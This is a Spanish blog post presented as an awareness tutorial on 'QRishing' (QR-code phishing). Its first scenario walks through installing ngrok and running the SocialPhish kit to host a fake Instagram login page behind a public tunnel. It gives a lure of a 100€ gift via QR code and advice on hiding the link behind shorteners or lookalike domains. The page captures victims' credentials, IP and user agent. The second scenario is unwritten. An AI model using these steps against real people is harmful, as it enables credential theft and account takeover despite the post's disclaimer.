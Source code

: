 ```yaml
---
title: QRishing ¿Cómo lo lleva a cabo un ciberdelincuente?
date: 2023-01-19 9:00:00
categories: [Ciberataques, Phising]
tags: [qrishing, qr, phising, tutorial]    
author: Waidroc
---
```





![Disclaimer!](/assets/img/2023-01-19/disclaimer120x120.png)

    
> Antes de comenzar con el post, remarcar que no me hago resonsable del uso indebido que se le pueda dar al aprendizaje de esta materia. Mi intención es meramente informativa, para dar conciencia y una visión "real" de cómo una persona NO ética puede hacer un uso indebido o fraudulento de esta tecnología/herramienta. Dicho esto, espero que lo disfrutéis mucho!
{: .prompt-danger}


![Banner](/assets/img/2023-01-19/qrishing_portada.png)

Antes de comenzar con la práctica, vamos a repasar una serie de conceptos:

El primero de todos, ¿qué es el **QRishing**? El QRishing es una variante del Phishing mediante la cual, un atacante intenta realizar una suplantación de identidad sobre un producto, organización, persona... para atentar contra una o varias víctimas, generalmente con fines lucrativos. El ataque consta en generar un código QR malicioso para un posterior escaneo del mismo por parte de la víctima.

Además, podrás preguntarte, ¿qué es un ataque de **ingeniería social**? Es muy difícil intentar explicar este concepto con una única y breve definición pero, podría decirse que un ataque de ingeniería social se basa en la práctica ilegímita de obtener cualquier tipo de información confidencial a través de la manipulación de usuarios que si tienen acceso a dicha información (accesos, permisos, documentos...).

> Como pequeño inciso y con tono humorístico, no debemos de confundir o mezclar el concepto de QRishing con el de Cruishing solo por el mero hecho de que se pronuncian de forma muy parecida, aunque el resultado de ambos puede dar fruto a algo que en ninguno de los casos esperábamos (risas).
{: .prompt-tip}

Una vez repasados los conceptos, vamos a plantear dos escenarios posibles, aplicables al día a día en los que un ciberdelincuente podría utilizar esta técnica para llevar a cabo una actividad fraudulenta:

**1. Volcado de credenciales hacia un servidor web del propio atacante, suplantando la identidad de una web legítima** <br>
**2. Un atacante es contratado por un restaurante para quitar clientela al restaurante de al lado, el cual le genera mucha competencia y así incrementar sus ganancias**

Presentado los escenarios, procedamos con la práctica!

> Tened en cuenta que no se realizará todo lo "profesional/real" posible, no se externalizarán los servicios y solo serán accesibles desde la red local. Además, no intentaremos ocultar nuestro rastro por lo que si lo realizáis esta práctica tal y como aparece en el post, no tardarían mucho en descubriros y tendríais problemas legales.
{: .prompt-info}

<h1> ESCENARIO 1: CONSEGUIR CREDENCIALES </h1>

Vamos a suponer que en este caso, estamos en un centro comercial y vemos diversos códigos QR indicándonos que nos regalan 100€ por seguir la cuenta de Instagram del propio lugar. Las víctimas escanearían el código QR, introducirían sus credenciales (logueo de Instagram ilegítimo) y una vez introducidos los datos, se redirigirá al perfil de Instagram del centro comerical para que las víctimas no sospechen de nada.

Lo primero de todo, vamos a abrir nuestra máquina de atacante, en mi caso utilizaré Kali Linux. Vamos a utilizar las herramientas **Ngrok** y **SocialPhish** para generar el portal de captura de credenciales.

Como primer paso, vamos a descargarnos el software Ngrok desde su web oficial (https://ngrok.com/download).

```bash
mkdir ngrok
cd ngrok
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
sudo tar xvzf ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```

Para poder utilizar ngrok, debemos de **registrarnos** (https://dashboard.ngrok.com/signup) y conseguir un **AuthToken**. Sin él, no podremos utilizar el software correctamente. Vamos a proceder al registro y al añadido del token a la herramienta:

![ngrokToken](/assets/img/2023-01-19/token.PNG)

Añadimos el AuthToken a ngrok

```bash
ngrok config add-authtoken <token>
```

Cuando tengamos todo lo anterior en funcionamiento, procedemos a abrir un tunel http por el puerto 3333.

> Si nos finaliza el comando ngrok con el siguiente error (The account "XXX" may not start an ngrok agent session until the admin's email address is verified. Verify your email at https://dashboard.ngrok.com/user/settings) debemos de verificar el correo que nos ha mandado la compañía de ngrok al correo electrónico proporcionado a la hora del registro para conseguir el AuthToken.
{: .prompt-info}

```bash
ngrok http 80
```

Realizado todo esto, estaríamos a la **escucha** y podríamos proceder al siguiente paso. El resultado sería el siguiente:

![ngrokEscucha](/assets/img/2023-01-19/escucha.png)


El siguiente paso sería crear el portal de autenticación de Instagram para poder enlazarlo al servidor que acabamos de crear. Vamos a clonar el repositorio de SocialPhish (https://github.com/xHak9x/SocialPhish) y procederemos a su instalación.

```bash
git clone https://github.com/xHak9x/SocialPhish
cd SocialPhish
chmod +x socialphish.sh
./socialphish.sh
```

Cuando lo ejecutemos, vamos a indicarle la opción **01 Instagram** y posteriormente la opción **02 Ngrok**


![socialphish](/assets/img/2023-01-19/socialphish.png)

Hecho todo esto, ya tendríamos el servidor web disponible, indexándose la página de logueo de instagram para introducir las credenciales. Cabe destacar que la URL que nos proporciona ngrok es muy sospechosa por lo que, un ciberdelincuente enmascararía o camuflaría la URL con un acortador o una prácticamente igual o parecida (lnstagram.es, instagrm.es...)

> Esta herramienta además de capturar las credenciales (si la víctima nos la proporciona), captura IP pública y User Agent.
{: .prompt-info}

<h1> ESCENARIO 2: PROPORCIONAR INFORMACIÓN ERRÓNEA</h1>



<h1> POST EN CONSTRUCCIÓN/DESARROLLO </h1>
